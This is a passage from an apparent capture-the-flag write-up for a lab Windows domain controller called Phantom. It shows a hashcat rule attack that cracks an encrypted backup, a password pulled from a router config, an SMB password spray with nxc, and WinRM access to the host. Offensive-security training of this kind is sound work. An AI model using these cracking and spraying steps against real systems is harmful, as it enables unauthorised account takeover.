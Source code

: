 but its asking password so lets just try to crack it with special list

```sh
➜  Phantom cat passwords 
phantom
Phantom
Ph4ntom
Ph4nt0m
➜  Phantom cat phantom.rule 
$2 $0 $2 $3 $!
$2 $0 $2 $3 $@
$2 $0 $2 $3 $#
$2 $0 $2 $3 $$
$2 $0 $2 $3 $%
$2 $0 $2 $3 $^
$2 $0 $2 $3 $&
$2 $0 $2 $3 $*
$2 $0 $2 $3 $(
$2 $0 $2 $3 $)
$2 $0 $2 $3 $-
$2 $0 $2 $3 $=
$2 $0 $2 $3 $+
```
and 
```sh
➜  Phantom hashcat -m 13721 IT_BACKUP_201123.hc passwords -r phantom.rule 
IT_BACKUP_201123.hc:Phantom2023!
```
okey in vyos_backup.tar.gz/config/config.boot we have 

password gB6XTcqVP5MlP7Rc

```sh
➜  Phantom nxc smb DC.phantom.vl -u users.txt -p 'gB6XTcqVP5MlP7Rc' --continue-on-success       

SMB         10.10.96.47     445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
```
noice we already have winrm shell here

```sh
➜  Phantom nxc winrm DC.phantom.vl -u svc_sspr -p 'gB6XTcqVP5MlP7Rc'                      
WINRM       10.10.96.47     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.96.47     5985   DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc (Pwn3d!)
```

## Privileges